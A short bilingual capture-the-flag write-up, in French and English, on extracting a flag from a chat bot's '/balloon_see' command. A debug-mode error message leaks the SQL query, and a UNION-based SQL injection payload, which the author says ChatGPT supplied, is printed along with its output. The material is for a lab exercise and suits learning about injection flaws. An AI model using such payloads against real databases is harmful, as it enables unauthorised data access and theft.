 # Krusty's Balloon (Krusty Bot)

## Write-up (français)

La description indique que le mode debug a été activé.
En faisant une erreur via une injection sql dans la commande `/balloon_see`, on reçoit un message privé du bot contenant la requête sql.
```
DEBUG MODE : unrecognized token: "''';"
This happend during the query : SELECT emoji, points FROM balloons JOIN players ON balloons.possessed_by = players.id WHERE players.name = ''';
```

De plus, on sait que l'élément que l'on veut afficher et la description du ballon.
En demandant à chat gpt on peut facilement obtenir un payload.

Celui-ci fonctionne parfaitement : `' UNION SELECT description, 1 FROM balloons--`

La commande affiche alors 
```
  emoji  |  points | description
---------|---------|- 
A balloon|   1    
Flag-1nfl4t4bl3|   1 
```

## Write-up (english)

The description says that the debug mode has been activated,
We can throw an error through an sql injection in the command `/balloon_see`, and we receive a private message from the bot containing the sql query.

```
DEBUG MODE : unrecognized token: "''';"
This happend during the query : SELECT emoji, points FROM balloons JOIN players ON balloons.possessed_by = players.id WHERE players.name = ''';
```

Knowing that the element we want to display is the balloon's description, we can ask chat gpt for a payload.

This one works perfectly: `' UNION SELECT description, 1 FROM balloons--`

The command then displays 
```
  emoji  |  points | description
---------|---------|-
A balloon|   1
Flag-1nfl4t4bl3|   1
```
